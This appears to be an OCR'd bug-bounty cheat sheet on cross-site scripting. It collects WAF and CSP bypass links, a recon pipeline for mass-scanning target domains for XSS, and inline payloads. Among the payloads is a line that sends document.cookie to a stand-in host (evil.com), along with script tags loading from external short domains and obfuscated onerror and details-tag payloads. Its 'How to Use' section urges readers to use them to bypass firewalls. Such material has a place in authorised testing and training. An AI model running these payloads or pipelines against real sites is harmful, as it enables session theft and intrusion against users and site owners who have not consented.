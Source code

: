 
---

### **XSS (Cross-Site Scripting) Resources**

#### **1. WAF Bypass & XSS Cheat Sheets**
- **Awesome WAF**:
  ```bash
  https://github.com/0xInfection/Awesome-WAF
  ```
- **Ghetto Bypass**:
  ```bash
  https://d3adend.org/xss/ghettoBypass
  ```
- **Browser's XSS Filter Bypass Cheat Sheet**:
  ```bash
  https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet
  ```
- **Angular Bypass**:
  ```bash
  https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet#angularの利用
  ```

#### **2. XSS Techniques**
- **HTTP Only Bypass**:
  ```bash
  location.href = "evil.com?c='escape(document.cookie)'"
  ```
- **Meta Refresh**:
  ```bash
  <meta http-equiv="refresh" content="0; url=http://example.com/">
  ```
- **Method Spoofing**:
  ```bash
  POST /endpoint
  Host: example.com
  _method=POST&data[user][username]=xsspayload
  ```
- **SameSite Bypass**:
  ```bash
  https://hazanasec.github.io/2023-07-30-Samesite-bypass-method-override.md/
  ```
- **Script Source Bypass**:
  ```bash
  <script src=//14.rs>
  <script src=//ł.rip>
  ```
- **XSS Payload**:
  ```bash
  "><img/src='x'/onerror="parent['ale'+'rt'](parent['doc'+'ument']['cookie']);">
  ```
- **Using `eval`**:
  ```bash
  Use eval, but always make sure where to use + and where to use %2b.
  ```

#### **3. CSP (Content Security Policy)**
- **CSP Bypass**:
  ```bash
  https://www.notion.so/CSP-10615e0fe55e8064a661dcfb7c0ee992?pvs=21
  https://cspbypass.com/
  ```

#### **4. Additional Resources**
- **Medium Articles**:
  ```bash
  https://medium.com/@DrakenKun/how-i-was-able-to-find-4-cross-site-scripting-xss-on-vulnerability-disclosure-program-e2f39199ae16
  ```
- **Twitter Threads**:
  ```bash
  https://twitter.com/Botami143/status/1741363525568823385?t=Mh-SqOmunyxQyK7UhoQASQ&s=19
  ```
- **Hahwul's XSS Guide**:
  ```bash
  https://www.hahwul.com/cullinan/xss/?fbclid=IwAR1HX06q3yYwG73REvITzA7mshM0egPaGR0PzqbnzW25HE1h4XdPVrA1ZNY
  ```
- **WAF Bypass XSS Payloads**:
  ```bash
  https://github.com/gprime31/WAF-bypass-xss-payloads/tree/master?fbclid=IwAR3oBisE0veAu87f77xZVubYTTLa7k0bWKo7HTMprPgxfqm_-P2hKDAu2do
  ```
- **OWASP XSS Filter Evasion Cheat Sheet**:
  ```bash
  https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
  ```
- **Zapstiko's XSS Payloads**:
  ```bash
  https://github.com/zapstiko/wordlists/blob/main/xss_payloads
  ```

#### **5. Advanced XSS Payloads**
- **Details Tag Exploit**:
  ```bash
  <dETAILS%0aopen%0aonToGgle%0a%3d%0aa%3dprompt,a(origin)%20x>
  ```

---

### **How to Use This Information**
1. **WAF Bypass**:
   - Use the provided cheat sheets and payloads to bypass Web Application Firewalls (WAFs).

2. **XSS Techniques**:
   - Experiment with different XSS payloads and techniques to find vulnerabilities in web applications.

3. **CSP Bypass**:
   - Study CSP bypass techniques to understand how to exploit Content Security Policy misconfigurations.

4. **Additional Resources**:
   - Refer to the provided links for more in-depth guides and examples of XSS exploitation.

---

```bash
Find subdomains.
subfinder -d domain -all | httpx -o subs1
subdominator -d domain  | httpx -o subs2

Merge all subs in one file
cat sub1 subs2|anew subs

Find history.
cat subs | wayback |anew xss-wayback
katana -list subs -o xss-katana
cat subs | gau --subs -o xss-gau

Sort all history in one file.
cat xss-wayback xss-katana xss-gau |anew xss.txt

Delete unnecessary extensions.
cat xss.txt |sort -u | grep "=" | egrep -iv ".(css|woff|woff2|txt|js|m4r|m4p|m4b|ipa|asa|pkg|crash|asf|asx|wax|wmv|wmx|avi|bmp|class|divx|doc|docx|exe|gif|gz|gzip|ico|jpg|jpeg|jpe|webp|json|mdb|mid|midi|mov|qt|mp3|m4a|mp4|m4v|mpeg|mpg|mpe|webm|mpp|_otf|odb|odc|odf|odg|odp|ods|odt|ogg|pdf|png|pot|pps|ppt|pptx|ra|ram|svg|svgz|swf|tar|tif|tiff|_ttf|wav|wma|wri|xla|xls|xlsx|xlt|xlw|zip)" | uro | httpx | anew xss

Run knoxnl against xss with both GET,POST methods.
knoxnl -i xss -X BOTH -s -o xssoutput.txt
```
